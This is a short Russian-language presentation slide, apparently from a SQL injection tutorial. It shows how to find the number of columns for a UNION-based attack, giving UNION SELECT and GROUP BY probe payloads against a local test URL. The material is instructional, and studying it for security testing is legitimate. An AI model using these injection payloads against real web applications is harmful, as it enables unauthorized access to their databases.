

Подбираем количество полей
UNION SELECT  vs GROUP BY
Подбор полей делается очень просто, достаточно посылать такие запросы:
SELECT * FROM `user` WHERE id=1 UNION SELECT 1,2,3,4,5,6#
GROUP BY

Зачастую бывает, что полей может быть 20 или 40 или даже 60. Чтобы нам каждый раз не перебирать их, используем GROUP BY

Если запрос
http://sqlinj/index1.php?id=1 GROUP BY 2#
не выдал ошибок, значит кол-во полей больше 2. Пробуем:

http://sqlinj/index1.php?id=1 GROUP BY 8#
Оп, видим ошибку, значит кол-во полей меньше 8.